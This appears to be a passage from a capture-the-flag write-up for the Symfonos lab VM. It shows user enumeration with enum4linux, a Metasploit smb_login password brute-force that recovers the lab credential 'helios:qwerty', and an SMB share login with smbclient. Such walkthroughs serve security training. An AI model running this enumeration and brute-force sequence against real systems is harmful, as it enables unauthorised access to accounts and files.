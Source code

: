 This must mean there are users with weak passwords.

#### Finding users:

Using enum4linux we find the user helios:

```
crazyeights@es-base:~$ enum4linux 192.168.56.132

S-1-5-21-3173842667-3005291855-38846888-1000 SYMFONOS\helios (Local User)
S-1-22-1-1000 Unix User\helios (Local User)
```

**Trying to crack helios's password**

Using the msf script smb\_login we get helios's password

```
msf5 > search smb_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login                   normal  No     SMB Login Check Scanner


msf5 > use 0
msf5 auxiliary(scanner/smb/smb_login) > options

msf5 auxiliary(scanner/smb/smb_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE symfonos_user.txt
USER_FILE => symfonos_user.txt
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.56.132
RHOSTS => 192.168.56.132
msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain symfonos
SMBDomain => symfonos
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE lists/rockyou-40.txt
PASS_FILE => lists/rockyou-40.txt
msf5 auxiliary(scanner/smb/smb_login) > exploit
[SNIP]
[+] 192.168.56.132:445    - 192.168.56.132:445 - Success: 'symfonos\helios:qwerty'
[*] 192.168.56.132:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Probably could have just checked each of the passwords in the file attention.txt

**Login to the helios share:**

```
crazyeights@es-base:~$ smbclient \\\\symfonos\\helios -I 192.168.56.132 -U 'helios'
Enter WORKGROUP\helios's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jun 28 20:32:05 2019
  ..                                  D        0  Fri Jun 28 20:37:04 2019
  research.txt                        A      432  Fri Jun 28 20:32:05 2019
  todo.txt                            A       52  Fri Jun 28 20:32:05 2019

		19994224 blocks of size 1024. 17295092 blocks available
smb: \> more todo.txt 
getting file \todo.txt of size 52 as /tmp/smbmore.z3DDVD (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
smb: \> more research.txt 
```